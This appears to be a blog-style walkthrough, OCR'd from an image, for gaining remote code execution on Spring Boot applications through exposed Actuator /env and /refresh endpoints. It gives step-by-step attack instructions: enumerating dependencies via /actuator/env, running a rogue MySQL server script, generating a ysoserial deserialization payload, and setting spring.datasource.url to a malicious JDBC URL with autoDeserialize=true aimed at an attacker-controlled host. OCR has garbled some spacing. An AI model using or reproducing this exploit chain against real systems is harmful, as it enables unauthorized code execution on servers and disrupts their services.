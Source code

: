 - You can POST requests to the /envinterface set properties

- You can POST request the /refreshinterface refresh the configuration ( spring-boot-starter-actuatordependency exists)

- A MySQL-connector-javadependency

- The target can request the attacker's server (the request can go out of the Internet)

**[](https://www.blogger.com/#)How to use:**\
[](https://www.blogger.com/#)**Step 1:** View environment dependencies

- GET request /envor /actuator/env, search for mysql-connector-java keywords , and record its version number (5.x or 8.x);

- Search and observe whether there are common deserialization gadget dependencies in environment variables, such as commons-collections, Jdk7u21, Jdk8u20etc.;

- Search for the spring.datasource.urlkeyword and record its value value to facilitate subsequent recovery of its normal JDBC url value.

**[](https://www.blogger.com/#)Step 2:** Set up a malicious rogue MySQL server

Run the [spring-boot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) script on a server you control and use [ysoserial](https://github.com/frohoff/ysoserial) to customize the commands to be executed:

```
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

Generate a deserialized payload file in the same directory as the script for the script to use. payload.ser\
[](https://www.blogger.com/#)

**Step 3:** Set the spring.datasource.url property

- Modifying this property will temporarily make all the normal database services of the website unavailable, which will affect the business, please operate with caution!

MySQL-connector-java 5.x version sets the property value to :

|

 |

jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true

 |

mysql-connector-java 8.x version sets the property value to :

|

jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
